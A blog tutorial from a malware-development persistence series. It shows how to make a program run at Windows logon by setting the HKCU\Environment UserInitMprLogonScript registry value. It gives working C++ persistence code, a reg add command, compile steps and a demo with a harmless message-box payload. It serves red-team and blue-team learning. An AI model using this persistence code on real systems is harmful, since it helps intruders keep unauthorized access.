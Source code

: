 ```yaml
---
title:  "Malware development: persistence - part 20. UserInitMprLogonScript (Logon Script). Simple C++ example."
date:   2022-12-09 03:00:00 +0300
header:
  teaser: "/assets/images/82/2022-12-11_18-11.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/82/2022-12-11_18-11.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via `UserInitMprLogonScript` value.     

### UserInitMprLogonScript

Windows enables the execution of logon scripts whenever a user or group of users logs into a system. Adding a script's path to the `HKCU\Environment\UserInitMprLogonScript` Registry key accomplishes this. So, to establish persistence, hackers may utilize Windows logon scripts automatically executed upon logon initialization.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple. Just set `UserInitMprLogonScript` key value under `HKCU\Environment` to the full path of our "malware" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.     

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](/assets/images/82/2022-12-11_17-57.png){:class="img-responsive"}    


Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/82/2022-12-11_17-54.png){:class="img-responsive"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

![pers](/assets/images/82/2022-12-11_18-00.png){:class="img-responsive"}    

As you can see, our "malware" works perfectly.    

At the next step, let's go to compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/82/2022-12-11_17-55.png){:class="img-responsive"}    

And run it at the attacker's machine:    

```powershell
.\pers.exe
```

Then, check our Registry key values again:    

```powershell
reg query "HKCU\Environment" /s
```

![pers](/assets/images/82/2022-12-11_18-06.png){:class="img-responsive"}    

So, as you can see, the key (`UserInitMprLogonScript`) value is set.    

That's all. Try to logout and login:     

![pers](/assets/images/82/2022-12-11_18-07.png){:class="img-responsive"}    

![pers](/assets/images/82/2022-12-11_18-07_1.png){:class="img-responsive"}    

And after a few milliseconds, our "malware", `meow-meow` popped up:     

![pers](/assets/images/82/2022-12-11_18-08.png){:class="img-responsive"}    

Then, if we open Process Hacker and check `hack.exe` properties:     

![pers](/assets/images/82/2022-12-11_18-09.png){:class="img-responsive"}    

![pers](/assets/images/82/2022-12-11_18-10.png){:class="img-responsive"}    

we see that the parent process is "non-existent" process.    

If you have studied the windows internals at least a little, you know that exists processes which have "non-existent" process as parent. For example, Windows Explorer - `explorer.exe`. Parent process is `userinit.exe` or `winlogon.exe`, but can be anything `.exe` using `explorer.exe`. Parent will show as `<Non-existent Process>` since `userinit.exe` terminates itself. Another example is Windows Logon - `winlogon.exe`. Parent is "does not exist" since `smss.exe` exits.      

If we check `hack.exe` properties via [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), we can see "Autostart Location" value:    

![pers](/assets/images/82/2022-12-11_20-05.png){:class="img-responsive"}    

Everything is worked perfectly! =^..^=

This persistence trick is used by [APT28](https://attack.mitre.org/groups/G0007) group and software like [Attor](https://attack.mitre.org/software/S0438) and [Zebrocy](https://attack.mitre.org/software/S0438) at the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)    
[Attor](https://attack.mitre.org/software/S0438)     
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)     
[source code in github](https://github.com/cocomelonc/2022-12-09-malware-pers-20)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
